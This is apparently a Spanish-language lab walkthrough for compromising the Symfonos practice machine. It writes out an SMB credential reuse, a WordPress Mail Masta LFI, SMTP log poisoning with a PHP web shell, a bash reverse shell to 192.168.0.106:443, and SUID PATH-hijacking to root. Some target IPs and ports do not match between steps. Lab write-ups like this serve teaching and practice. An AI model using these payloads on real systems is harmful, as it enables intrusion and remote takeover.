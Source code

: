 # Summary
- IP: 192.168.0.115
- Ports: 22,25,80,139,445,
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.4p1 Debian 10+deb9u
	-  25 -> Postfix smtpd
	-  80-> Apache httpd 2.4.25
	- 139 -> Samba smbd 3.X - 4.X
	- 445 -> Samba smbd 4.5.16-Debian

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Enumeramos los recursos compartidos con Samba:

```
$smbmap -H 192.168.0.103
```

- Analizamos el directorio "Anonymous" y descargamos lo que tiene:

```
$smbmap -H 192.168.0.103 -r anonymous

$smbmap -H 192.168.0.103 --download anonymous/attention.txt
```

- Obtenemos psibles contraseñas leyendo el archivo "attention.txt", accedemos a los recursos del user "helios" con una de estas contraseñas y descargamos lo que hay dentro:

```
$smbmap -H 192.168.0.103 -u helios -p qwerty -r helios
$smbmap -H 192.168.0.103 -u helios -p qwerty --download helios/research.txt
$smbmap -H 192.168.0.103 -u helios -p qwerty --download helios/todo.txt
```

- Leemos el archivo "todo.txt" y encontramos un directorio "/h3l105" accedemos a este y encontramos un wordpress.
- Analizamos la página Wordpress, revisando el código fuente enumeramos los plugis en búsqueda de alguno vulnerable, encontramos el plugin "mail masta", buscamos vulns:

```
$searchsploit mail masta
```

- Vemos que hay un LFI, aprovechamos esta vuln y hacemos un escaneo básico de LFI buscando posibles caminos para pasar a RCE:

http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

- Al no encontrar nada, nos damos cuenta que el puerto 25 está abierto (protocolo smtp) así que  buscamos en el directorio:

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios 

- Encontramos el log mail del usuario helios, por lo que podemos hacer LOG POISONING, mandamos un mail al usuario helios desde un email cualquiera con código php incrustado que genere un parámetro "cmd" en el que podamos insertar comandos:

```
$telnet 192.168.0.103 25

MAIL FROM: andres
RCPT TO: helios
DATA
<?php system($_GET['cmd']); ?>
```

- Ahora podemos ejecutar comandos apuntando al parámetro "cmd", nos entablamos una reverse shell para ganar acceso a la máquina:

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261

- Hacemos tratamiento de tty.

# ESCALANDO PRIVILEGIOS:

- Buscamos privilegios SUID:

```
$ find / -perm -4000 2>/dev/null
```

- Encontramos un archivo sospechoso "/opt/statuscheck" lo analizamos:

```
$ strings /opt/statuscheck
```

- Vemos que en una parte del binario ejecuta el comando "curl" usando ruta relativa, lo cual podemos explotar con PATH HIJAKING:

```
$ nano /tmp/curl
$ chmod +x /tmp/curl
$ export PATH=/tmp:$PATH
$ ./statuscheck
$ ls -l /bin/bash
```

- Accedemos como ROOT 
```
$bash -p
```


